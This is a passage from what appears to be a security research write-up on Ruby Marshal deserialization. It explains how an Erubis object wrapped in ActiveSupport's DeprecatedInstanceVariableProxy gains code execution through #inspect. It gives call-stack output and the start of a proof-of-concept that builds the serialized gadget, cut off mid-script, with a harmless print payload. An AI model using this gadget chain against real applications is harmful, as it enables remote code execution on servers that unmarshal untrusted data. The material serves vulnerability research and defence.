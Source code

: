 ```
$ ruby test.rb 
Code execution, weeee!
/Users/wchen/.rvm/gems/ruby-2.4.1/gems/erubis-2.7.0/lib/erubis/evaluator.rb:65:in `eval'
/Users/wchen/.rvm/gems/ruby-2.4.1/gems/erubis-2.7.0/lib/erubis/evaluator.rb:65:in `result'
/Users/wchen/.rvm/gems/ruby-2.4.1/gems/activesupport-4.2.10/lib/active_support/deprecation/proxy_wrappers.rb:88:in `target'
/Users/wchen/.rvm/gems/ruby-2.4.1/gems/activesupport-4.2.10/lib/active_support/deprecation/proxy_wrappers.rb:24:in `method_missing'
test.rb:111:in `<main>'
```

### Code Execution via #inspect

The way to call ```#inspect``` is by **causing an exception**, which may happen if the vulnerable
application isn't using the object for some reason. For example: NoMethodError.

The ```#inspect``` method will end up calling ```#target```, which has ```@instance``` that we
control (our malicious Erubis object).

If code execution is successful, the code path would looke something like this callstack:

```
$ ruby test.rb 
test.rb:97:in `<main>': Code execution, weeee!
/Users/wchen/.rvm/gems/ruby-2.4.1/gems/erubis-2.7.0/lib/erubis/evaluator.rb:65:in `eval'
/Users/wchen/.rvm/gems/ruby-2.4.1/gems/erubis-2.7.0/lib/erubis/evaluator.rb:65:in `result'
/Users/wchen/.rvm/gems/ruby-2.4.1/gems/activesupport-4.2.10/lib/active_support/deprecation/proxy_wrappers.rb:88:in `target'
/Users/wchen/.rvm/gems/ruby-2.4.1/gems/activesupport-4.2.10/lib/active_support/deprecation/proxy_wrappers.rb:18:in `inspect'
/Users/wchen/.rvm/gems/ruby-2.4.1@global/gems/did_you_mean-1.1.0/lib/did_you_mean/core_ext/name_error.rb:10:in `inspect'
/Users/wchen/.rvm/gems/ruby-2.4.1@global/gems/did_you_mean-1.1.0/lib/did_you_mean/core_ext/name_error.rb:10:in `to_str'
/Users/wchen/.rvm/gems/ruby-2.4.1@global/gems/did_you_mean-1.1.0/lib/did_you_mean/core_ext/name_error.rb:10:in `to_s'
/Users/wchen/.rvm/gems/ruby-2.4.1@global/gems/did_you_mean-1.1.0/lib/did_you_mean/core_ext/name_error.rb:10:in `to_s'
test.rb:1:in `message'
undefined method `my_imaginary_method' for {"a"=>"some value", "exploit"=>nil}:Hash (NoMethodError)
```

## Proof of Concept

```ruby
# Create our malicious serialized object.
# While crafting this, we want to avoid executing the malicious code
exploit = %Q|
module Erubis;class Eruby;end;end
module ActiveSupport;module Deprecation;class DeprecatedInstanceVariableProxy;end;end;end

erubis = Erubis::Eruby.allocate
erubis.instance_variable_set :@src, \\"puts 'Code execution, weeee!'; puts caller * \\\\\\"\\\\n\\\\\\"\\"

proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
proxy.instance_variable_set :@instance, erubis
proxy.instance_variable_set :@method, :result

hash = {
    'a' => 'some value',
    'exploit' => proxy
}

print Marshal.dump(hash)
```